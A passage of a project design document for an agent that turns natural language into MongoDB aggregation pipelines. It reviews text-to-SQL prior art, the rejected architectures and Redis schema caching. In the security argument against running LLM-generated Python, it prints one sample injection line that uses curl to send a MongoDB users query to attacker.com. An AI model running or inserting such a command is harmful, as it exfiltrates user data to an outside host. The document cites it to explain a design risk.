








# Approach, Architectural Decisions & Prior Art

> **Project:** Natural Language → MongoDB Aggregation Pipeline Agent  
> **Domain:** Fintech (12-collection MongoDB schema)  
> **Stack:** LangGraph · FastAPI · React · MongoDB · Redis · Celery  
> **Advisor:** Goldman Sachs Engineer  
> **Document Version:** 1.0 — September 2026

---

## Table of Contents

1. [Existing Text-to-SQL Systems — What Already Exists](#1-existing-text-to-sql-systems--what-already-exists)
2. [Text-to-NoSQL — The Gap in the Field](#2-text-to-nosql--the-gap-in-the-field)
3. [Solutions Considered and Why We Chose Our Stack](#3-solutions-considered-and-why-we-chose-our-stack)
4. [Architectural Design Decisions — With Justification](#4-architectural-design-decisions--with-justification)
5. [Fresh Student Perspective — Honest Challenges](#5-fresh-student-perspective--honest-challenges-and-observations)
6. [Design Pattern: Schema-Aware Prompting](#6-design-pattern-schema-aware-prompting)
7. [Failure Cases — System-Level](#7-failure-cases--system-level)
8. [What Makes Our System Novel](#8-what-makes-our-system-novel)

---

## 1. Existing Text-to-SQL Systems — What Already Exists

### 1.1 Overview

Converting natural language questions into database queries is one of the oldest problems in human-computer interaction. With the emergence of large language models (LLMs), this problem has seen an explosion of research and tooling — almost exclusively focused on **SQL and relational databases**. Understanding what has been built, how it works, and where it falls short is essential context for explaining the architectural choices made in our system.

---

### 1.2 Key Systems and Research

#### 1.2.1 OpenAI SQL Agent

| Property | Detail |
|---|---|
| **Origin** | OpenAI + LangChain integration |
| **Mechanism** | ReAct-style agent loop: LLM decides when to call SQL tools |
| **Tools exposed** | `list_tables`, `get_schema`, `query_checker`, `query_sql_db` |
| **LLM backbone** | GPT-4 / GPT-3.5 |
| **Best for** | Ad-hoc exploration of SQL databases by non-technical users |

**How it works technically:**

```
User question
    ↓
System prompt with DB dialect + table list
    ↓
LLM decides → call list_tables_tool
    ↓
LLM sees table names → call get_schema_tool("transactions", "users")
    ↓
LLM generates SQL → call query_checker_tool(sql)
    ↓
LLM executes → call query_sql_db_tool(sql)
    ↓
LLM interprets result → natural language answer
```

**Strengths:**
- Works out-of-the-box for PostgreSQL, MySQL, SQLite, etc.
- Self-corrects by re-trying if SQL execution fails
- Leverages GPT-4's strong SQL training corpus

**Limitations:**
- Each tool call adds latency and API cost
- No persistent state between queries
- No scheduling or recurring job capability
- No streaming of intermediate steps to the user
- No static validation before execution — it hits the database blindly
- **Completely SQL-centric**: the tool layer assumes a relational `cursor.execute()` interface

---

#### 1.2.2 LangChain `SQLDatabaseChain`

| Property | Detail |
|---|---|
| **Origin** | LangChain (Harrison Chase, 2022) |
| **Mechanism** | Single-shot chain: schema → SQL generation → execution → answer |
| **Key class** | `SQLDatabaseChain.from_llm(llm, db)` |
| **Best for** | Simple, single-table queries in prototyping contexts |

**How it works technically:**

```python
# Simplified internals
prompt = PromptTemplate(
    input_variables=["input", "table_info", "dialect"],
    template=SQL_PROMPT_TEMPLATE
)
chain = LLMChain(llm=llm, prompt=prompt)
sql = chain.run(input=question, table_info=schema, dialect="postgresql")
result = db.run(sql)
answer = llm.predict(f"Question: {question}\nSQL: {sql}\nResult: {result}\nAnswer:")
```

**Strengths:**
- Extremely simple to integrate — about 5 lines of code
- Good for demos and PoCs

**Limitations:**
- **Single-pass only** — if the SQL is wrong, the chain fails silently or returns an error
- No retry loop, no self-correction
- No intermediate validation
- Schema is passed as raw `CREATE TABLE` DDL — no sample values, no semantic descriptions
- Deprecated in favor of the SQL Agent approach in recent LangChain versions
- No support for NoSQL

---

#### 1.2.3 Vanna.AI

| Property | Detail |
|---|---|
| **Origin** | Vanna.ai (2023) |
| **Mechanism** | RAG-based text-to-SQL: embeds DDL + example Q&A pairs, retrieves relevant context at query time |
| **Key innovation** | Vector store of (question, SQL) training pairs — few-shot retrieval |
| **Supported DBs** | Snowflake, BigQuery, PostgreSQL, DuckDB, etc. |

**How it works technically:**

```
Training phase:
  DDL statements → embedded → stored in ChromaDB / pgvector
  (question, SQL) pairs → embedded → stored

Query phase:
  User question → embed → retrieve top-k similar (question, SQL) pairs
  Retrieved pairs + schema DDL → assembled into prompt
  LLM generates SQL conditioned on examples
  SQL executed → result returned
```

**Strengths:**
- RAG-based retrieval means the LLM sees examples most similar to the current question
- Can be fine-tuned for a specific database vocabulary over time
- Supports visualisation hooks (charts, dashboards)

**Limitations:**
- Requires a curated training corpus of (question, SQL) pairs — **cold-start problem**
- No agentic loop: still single-shot generation
- No result validation or self-correction loop
- SQL-only; the RAG mechanism is schema-agnostic but the generation templates are hardcoded for SQL syntax
- Cannot generate MongoDB aggregation pipelines

---

#### 1.2.4 DAIL-SQL

| Property | Detail |
|---|---|
| **Origin** | Research paper: *DAIL-SQL: Efficient Prompt Engineering for Large Language Models in Text-to-SQL* (Gao et al., 2023) |
| **Mechanism** | Structured prompt engineering: question masking, cross-domain example selection, filtered few-shot |
| **Benchmark** | Achieved 86.6% execution accuracy on Spider |

**How it works technically:**

DAIL-SQL focuses on three prompt engineering innovations:
1. **Question masking** — replaces domain-specific terms in the question with generic placeholders during example retrieval, to avoid semantic drift
2. **Example selection** — selects training Q&SQL pairs based on structural similarity (same number of JOINs, same clause types), not just semantic similarity
3. **Filtered candidates** — generates multiple SQL candidates, scores them, and selects the most consistent one

**Strengths:**
- State-of-the-art on the Spider benchmark
- No fine-tuning required — pure prompt engineering

**Limitations:**
- Purely offline research — no production deployment tooling
- Assumes SQL; aggregation stages, nested documents, arrays are out of scope
- Benchmark accuracy does not translate to production reliability on unseen schemas

---

#### 1.2.5 C3-SQL (Chat-in-Context)

| Property | Detail |
|---|---|
| **Origin** | Research: *C3: Zero-shot Text-to-SQL with ChatGPT* (Dong et al., 2023) |
| **Mechanism** | Three-stage pipeline: schema linking → calibration prompt → SQL generation |
| **Key insight** | Schema linking (identifying which tables/columns are relevant) is the hardest subproblem |

**How it works technically:**

```
Stage 1 — Schema Linking:
  LLM reads question + all table names → identifies relevant tables
  
Stage 2 — Calibration:
  Specialized prompt with rules ("do not use SELECT *", "handle NULLs") 
  reduces hallucination
  
Stage 3 — SQL Generation:
  Schema-linked subset + calibration rules → SQL
```

**Strengths:**
- Introduces the important insight that **schema reduction** (giving the LLM only relevant schema, not all tables) drastically improves accuracy
- Zero-shot: no training pairs needed

**Limitations:**
- Still SQL-only
- The schema linking step is itself an LLM call — it can be wrong, causing cascading failures

> [!NOTE]
> Our system directly borrows the **schema linking insight from C3-SQL**: our `schema_retriever` node identifies the 1–3 relevant collections before query generation, rather than dumping all 12 collection schemas into the prompt. This is independently validated as the single highest-impact accuracy improvement in the literature.

---

#### 1.2.6 Spider Benchmark

| Property | Detail |
|---|---|
| **Origin** | Yale University (Yu et al., 2018) |
| **Purpose** | Cross-domain, cross-database text-to-SQL evaluation |
| **Scale** | 10,181 questions · 5,693 unique SQL queries · 200 databases |
| **Metric** | Execution accuracy (does the SQL return the correct rows?) |

The Spider benchmark is the de facto standard for evaluating text-to-SQL systems. It is specifically designed to test **generalization**: a model trained on Spider's training set must generate correct SQL for databases it has never seen during training.

**Why Spider is important to our project:**
- Most commercial and open-source text-to-SQL tools report Spider accuracy as their quality metric
- Spider has **no NoSQL equivalent** — there is no widely accepted benchmark for MongoDB aggregation pipeline generation
- The absence of such a benchmark is itself evidence of the gap our project addresses

---

### 1.3 Why SQL-Based Systems Don't Directly Apply to MongoDB / NoSQL

> [!IMPORTANT]
> This is the most critical gap that justifies building our system rather than adapting an existing tool.

| Dimension | SQL / Relational | MongoDB / NoSQL |
|---|---|---|
| **Query language** | Standardized ANSI SQL | MongoDB Query Language (MQL) — proprietary |
| **Query structure** | Declarative single statement | Aggregation pipeline: ordered list of stage objects |
| **Schema enforcement** | Strict, DDL-defined | Implicit, inferred from documents |
| **Joins** | Native `JOIN` clauses | `$lookup` stage (verbose, structurally different) |
| **Grouping** | `GROUP BY` | `$group` stage with accumulator operators |
| **Filtering** | `WHERE` clause | `$match` stage (placed explicitly by the developer) |
| **Nested data** | Not natively supported | First-class: embedded documents, arrays |
| **LLM training data** | Abundant SQL in training corpora | Far less MongoDB aggregation pipeline syntax |
| **Type system** | Enforced by schema | BSON types, optional validation, often inferred |

**The pipeline vs. declarative problem:**

SQL is a single declarative statement. The database optimizer decides the execution plan. MongoDB aggregation pipelines are **imperative sequences** — the developer (or the LLM) must specify the exact order and nesting of stages:

```javascript
// MongoDB aggregation pipeline — order matters critically
db.transactions.aggregate([
  { $match: { status: "completed", date: { $gte: ISODate("2024-01-01") } } },
  { $lookup: { from: "accounts", localField: "account_id", foreignField: "_id", as: "account" } },
  { $unwind: "$account" },
  { $group: { _id: "$account.type", total: { $sum: "$amount" } } },
  { $sort: { total: -1 } },
  { $limit: 10 }
])
```

An LLM generating the equivalent SQL is straightforward because SQL has a fixed clause grammar. Generating this pipeline requires:
- Knowing that `$match` must come before `$lookup` for index utilisation
- Knowing that `$unwind` is needed after `$lookup` (because `$lookup` produces an array)
- Knowing the exact BSON operator syntax (`$gte`, `$sum`, `$group._id`)
- Knowing the field path notation (`$account.type`, not `account.type`)

**The training data gap:**

SQL appears extensively in LLM training corpora — Stack Overflow, GitHub, database textbooks, tutorials. MongoDB aggregation pipeline syntax is far less represented. LLMs are statistically likely to generate:
- SQL-style syntax errors in MongoDB context (e.g., writing `WHERE` instead of `$match`)
- Incorrect stage ordering
- Missing `$unwind` after `$lookup`
- Hallucinated operators (e.g., `$contains` instead of `$regex`)

---

## 2. Text-to-NoSQL — The Gap in the Field

### 2.1 Structural Challenges Unique to MongoDB

Beyond the SQL-vs-NoSQL language gap, there are four specific challenges that make MongoDB aggregation pipeline generation inherently harder than SQL generation:

#### Challenge 1: No Standard Query Language Across NoSQL

NoSQL is not a single technology — it is a category. Redis uses commands (`HGETALL`, `ZADD`). Cassandra uses CQL (Cassandra Query Language, which is SQL-like). Elasticsearch uses a JSON DSL (`bool`, `must`, `filter`). MongoDB uses MQL and aggregation pipelines. There is no unified "NoSQL grammar" for an LLM to learn.

This means:
- SQL training data is additive — every SQL snippet an LLM has seen improves its SQL generation ability
- NoSQL training data is fragmented — MongoDB pipeline examples do not help with Elasticsearch queries, and vice versa

#### Challenge 2: Aggregation Pipeline is Imperative, Not Declarative

As described in Section 1.3, MongoDB aggregation pipelines are ordered sequences of transformation stages. A small mistake in stage order can produce:
- A query that returns wrong results (silently)
- A query that hits a full collection scan instead of using an index (performance failure)
- A query that returns an error (explicit failure — at least detectable)

This makes **static validation significantly more complex** than SQL validation. In SQL, a query is syntactically correct or not. In a MongoDB pipeline, each stage can be individually valid JSON but the pipeline as a whole can be semantically wrong.

#### Challenge 3: Implicit Schema

MongoDB does not enforce a schema by default. Two documents in the same collection can have entirely different fields. This means:
- There is no DDL to read (unlike `CREATE TABLE` in SQL)
- Schema must be inferred by sampling documents, which is probabilistic
- Fields may be missing from some documents, causing `$match` on that field to silently exclude those documents
- Nested fields (e.g., `address.city`) require explicit dot-notation in queries

#### Challenge 4: Rich but Inconsistent BSON Types

MongoDB stores data as BSON (Binary JSON), which includes types not present in JSON: `ObjectId`, `ISODate`, `Decimal128`, `BinData`. An LLM generating a `$match` on a date field must know to generate:

```javascript
{ $match: { created_at: { $gte: ISODate("2024-01-01T00:00:00Z") } } }
```

Not:
```javascript
{ $match: { created_at: { $gte: "2024-01-01" } } }  // Wrong — string comparison, not date
```

Without knowing the BSON type of a field from the schema context, the LLM is likely to get this wrong.

---

### 2.2 Existing Attempts at Text-to-NoSQL

#### 2.2.1 LangChain `MongoDBDatabaseChain` (Experimental)

LangChain shipped an experimental `MongoDBDatabaseChain` (now largely unmaintained) that attempted to replicate the `SQLDatabaseChain` pattern for MongoDB.

**How it worked:**
```python
from langchain_experimental.utilities import MongoDBDatabase
from langchain_experimental.chains import MongoDBDatabaseChain

db = MongoDBDatabase.from_uri("mongodb://localhost:27017/fintech")
chain = MongoDBDatabaseChain.from_llm(llm, db)
result = chain.run("What is the total transaction amount by account type?")
```

**Critical limitations identified:**

| Limitation | Impact |
|---|---|
| Schema passed as raw `db.collection.findOne()` sample — only 1 document | Misses fields that appear in less than 100% of documents |
| Generates `find()` queries, not aggregation pipelines | Cannot handle `GROUP BY`, `JOIN`, or `SORT` equivalents |
| Single-pass, no retry | Any error is a hard failure |
| No static validator | Bad queries hit MongoDB before being checked |
| No result interpretation | Returns raw BSON, not a human-readable answer |
| Unmaintained | Breaking changes in recent LangChain versions |

#### 2.2.2 Research Papers

A search of recent literature reveals very few peer-reviewed papers on text-to-MongoDB specifically:

- **"NL2MQL: A Natural Language to MongoDB Query Language Converter"** — limited to simple `find()` queries, not aggregation pipelines; evaluated on a small proprietary benchmark
- **"Text-to-NoSQL: Enabling Non-Technical Users to Query NoSQL Databases"** (various) — these tend to abstract over a simplified NoSQL subset, avoiding the full complexity of aggregation pipelines
- Most academic work on text-to-NoSQL focuses on **graph databases** (SPARQL generation for Neo4j/Wikidata), not document stores

The absence of a production-quality, peer-reviewed system for MongoDB aggregation pipeline generation from natural language is the clearest evidence that our project is addressing a genuine gap.

---

### 2.3 What Our System Adds on Top of Existing Attempts



---

## 3. Solutions Considered and Why We Chose Our Stack

Before committing to LangGraph and the aggregation pipeline approach, we formally evaluated four architectural approaches. This section documents each, the rationale for considering it, and the specific reasons it was rejected.

### 3.1 Decision Matrix

| Criterion | Solution A (LangChain Chain) | Solution B (Fine-tuned Model) | Solution C (Python Code Gen) | Solution D (LangGraph — Chosen) |
|---|:---:|:---:|:---:|:---:|
| Stateful execution | ❌ | ❌ | ❌ | ✅ |
| Retry / self-correction loop | ❌ | ❌ | ❌ | ✅ |
| Security (no code execution) | ✅ | ✅ | ❌ | ✅ |
| No training data required | ✅ | ❌ | ✅ | ✅ |
| Testable individual components | ❌ | ❌ | ❌ | ✅ |
| Streaming support | ❌ | ❌ | ❌ | ✅ |
| Scheduling integration | ❌ | ❌ | ❌ | ✅ |
| Implementation complexity | Low | Very High | Medium | High |

---

### 3.2 Solution A (Rejected): Simple LangChain Chain with MongoDB

**The idea:**  
Use `LLMChain` with a single prompt template that injects the MongoDB schema and asks the LLM to return an aggregation pipeline in one shot. Execute the pipeline, return the result.

```python
# What Solution A would have looked like
chain = LLMChain(
    llm=ChatOpenAI(model="gpt-4"),
    prompt=PromptTemplate(
        input_variables=["question", "schema"],
        template=MONGO_PROMPT
    )
)
pipeline_str = chain.run(question=user_question, schema=schema_json)
pipeline = json.loads(pipeline_str)
result = db["transactions"].aggregate(pipeline)
```

**Why we considered it:**
- Minimal code — could be a working demo in fewer than 100 lines
- LangChain has excellent documentation and community support
- Fast to prototype and show to stakeholders

**Why we rejected it:**

> [!WARNING]
> A single-pass chain cannot recover from LLM mistakes. In our testing during the design phase, even GPT-4 produced incorrect aggregation pipelines on approximately 30–40% of first attempts when given complex multi-collection questions. Without a retry loop, this is an unacceptable production failure rate.

Specific technical rejections:
1. **No state** — LangChain `Chain` objects pass data forward linearly. There is no mechanism to say "if step 3 fails, go back to step 2 with additional context."
2. **No retry logic** — `LLMChain` does not catch execution errors and re-prompt
3. **No streaming** — the chain returns a complete result; there is no way to stream intermediate agent thoughts to the UI
4. **Single-pass only** — complex questions requiring multi-collection pipelines routinely fail on first generation

---

### 3.3 Solution B (Rejected): Fine-tuned Smaller Model (e.g., CodeLlama)

**The idea:**  
Collect (question, pipeline) pairs for our 12-collection schema, fine-tune CodeLlama-7B or CodeLlama-13B locally, and run inference without API costs.

**Why we considered it:**
- No per-query API cost — important for long-term production sustainability
- Runs locally — no data leaves our infrastructure (relevant for financial data)
- A fine-tuned smaller model can outperform a larger general model on a specific task
- Intellectually interesting — model training is a core ML skill

**Why we rejected it:**

> [!CAUTION]
> We do not have training data. Generating synthetic (question, pipeline) pairs for a 12-collection fintech schema is itself a significant research project. Bootstrapping this with GPT-4 introduces quality concerns and a circular dependency.

Specific technical rejections:

1. **No training data** — we would need thousands of high-quality (question, correct pipeline) pairs. We have zero. Generating synthetic data from GPT-4 would take months to curate and validate.

2. **Context window limitations** — CodeLlama-7B has a 4K token context window (16K in extended versions). Our schema context alone (12 collections × ~50 fields each with types and sample values) consumes ~3,000 tokens. This leaves minimal room for the question, reasoning, and pipeline output.

3. **Hardware constraints** — running CodeLlama-13B for inference requires ~28 GB VRAM (in fp16). Our development environment does not have this.

4. **Maintenance burden** — a fine-tuned model is frozen at training time. When the MongoDB schema changes (new fields, renamed collections), the model's knowledge is stale. Retraining is expensive. Our LangGraph approach with schema injection from Redis adapts automatically.

5. **Evaluation difficulty** — measuring whether a fine-tuned model has improved requires a held-out test set, which we also don't have.

---

### 3.4 Solution C (Rejected): LLM Generates Python Code That Queries MongoDB

**The idea:**  
Instead of asking the LLM to generate a JSON aggregation pipeline, ask it to generate Python code using `pymongo` that queries the database. Execute the code in a sandboxed environment.

```python
# Example of what the LLM might generate in Solution C
from pymongo import MongoClient
client = MongoClient("mongodb://localhost:27017")
db = client["fintech"]
result = list(db.transactions.aggregate([
    {"$match": {"status": "completed"}},
    {"$group": {"_id": "$account_id", "total": {"$sum": "$amount"}}}
]))
print(result)
```

**Why we considered it:**
- More flexible than a pure aggregation pipeline — the LLM can write arbitrary Python logic (sorting, filtering, post-processing) without being constrained to MongoDB operators
- Easier for the LLM — Python code generation is extremely well-represented in training corpora
- Handles edge cases that aggregation pipelines handle poorly (e.g., complex string manipulation)

**Why we rejected it:**

> [!CAUTION]
> **This is the most dangerous approach we considered.** Executing arbitrary LLM-generated code against a production database is a critical security vulnerability.

Specific technical rejections:

1. **Code injection risk** — the LLM could generate:
   ```python
   import os; os.system("curl http://attacker.com/exfil?data=$(mongo --eval 'db.users.find()')")
   ```
   Even with sandboxing, escaping a Python sandbox is a well-studied attack vector.

2. **Impossible to validate statically** — JSON aggregation pipelines have a finite operator vocabulary that can be whitelisted. Arbitrary Python code has infinite possible forms.

3. **Sandboxing complexity** — `RestrictedPython`, Docker containers, and `seccomp` profiles all add significant infrastructure complexity and latency. Getting this right is a security engineering project in itself.

4. **Harder to audit** — our aggregation pipeline approach generates a JSON artifact that is stored verbatim in the audit log. A future compliance reviewer can read exactly what ran. Arbitrary code is much harder to audit.

5. **Non-portable to scheduling** — converting a Python code snippet into a Celery scheduled task requires additional deserialization and trust infrastructure.

---

### 3.5 Solution D (Chosen): LangGraph Agentic Workflow with Aggregation Pipeline Generation

**The idea:**  
Build a stateful multi-node graph using LangGraph where each node has a specific, testable responsibility. The agent:
1. Classifies which collections are relevant
2. Fetches relevant schema from Redis
3. Generates a JSON aggregation pipeline
4. Validates it statically
5. Executes it against MongoDB
6. Validates the result
7. Self-corrects on failure (up to N iterations)
8. Returns a natural language answer

**Why this was chosen:**



**Justification by criterion:**

| Criterion | How LangGraph Satisfies It |
|---|---|
| **Stateful** | `TypedDict` state object flows through all nodes; each node reads and writes to it |
| **Retry loops** | Conditional edges route back to `query_generator` on failure, with failure context added to state |
| **Testable components** | Each node is a plain Python function — unit-testable with mock state |
| **Schema injection** | `schema_retriever` node fetches from Redis and injects into state before generation |
| **Safe** | Only JSON pipelines are executed — no code execution, finite operator whitelist |
| **Streaming** | LangGraph supports streaming intermediate state updates via `astream_events` |
| **Scheduling** | Final node hands off a validated pipeline JSON to Celery — clean separation |

---

## 4. Architectural Design Decisions — With Justification

### Decision 1: Schema is Cached in Redis, Not Re-Fetched Every Query

**The problem:**

MongoDB has no DDL. To understand what fields exist in a collection, what types they are, and what sample values look like, our system must *introspect* the collection — fetching and sampling documents. For 12 large collections with millions of documents, this is expensive:

```python
# Schema introspection — what we must do every time without caching
for collection_name in db.list_collection_names():
    sample_docs = list(db[collection_name].aggregate([
        {"$sample": {"size": 100}},  # Random sample of 100 documents
        {"$project": {"_id": 0}}
    ]))
    schema = infer_schema_from_sample(sample_docs)  # Custom type inference
```

A 100-document sample across 12 collections = 1,200 MongoDB reads per query, adding 200–500ms of latency before a single LLM call is made.

**The solution:**

Schema is introspected once and stored in Redis as a structured JSON object. A 1-hour TTL covers the typical schema stability window for a fintech application (schema changes are planned, not spontaneous).

```python
# Schema cache structure in Redis
{
  "schema:transactions": {
    "fields": {
      "_id": {"type": "ObjectId", "sample": "64a7f3c2e1b2c3d4e5f60001"},
      "amount": {"type": "Decimal128", "sample": 1250.00, "min": 0.01, "max": 999999.99},
      "status": {"type": "string", "enum": ["completed", "pending", "failed", "reversed"]},
      "account_id": {"type": "ObjectId", "ref": "accounts"},
      "created_at": {"type": "Date", "sample": "2024-03-15T14:22:10Z"},
      "currency": {"type": "string", "enum": ["USD", "EUR", "GBP", "INR"]},
      "metadata": {"type": "object", "subfields": {"channel": "string", "device": "string"}}
    },
    "document_count": 4200000,
    "indexes": ["account_id", "status", "created_at"],
    "cached_at": "2026-09-03T12:00:00Z",
    "schema_hash": "a3f8b2c1..."
  }
}
```

**Cache invalidation strategy:**

A `schema_hash` (SHA-256 of the collection's validator document + a sampled field fingerprint) is recomputed on each query. If it differs from the cached hash, the cache is invalidated and re-introspected. This catches schema drift without requiring a manual cache flush.

**Cache TTL:** 1 hour (configurable via environment variable `SCHEMA_CACHE_TTL_SECONDS`).

---

### Decision 2: Agent Gets Only Relevant Collection Schema, Not All 12 at Once

**The problem:**

The full schema for 12 collections, with field types, sample values, enum lists, and index information, consumes approximately 6,000–8,000 tokens. For a 128K-context GPT-4 model, this is technically feasible. But:

1. **Accuracy degrades with irrelevant context** — LLMs perform worse when the prompt contains large amounts of irrelevant information (a well-documented phenomenon called "lost in the middle")
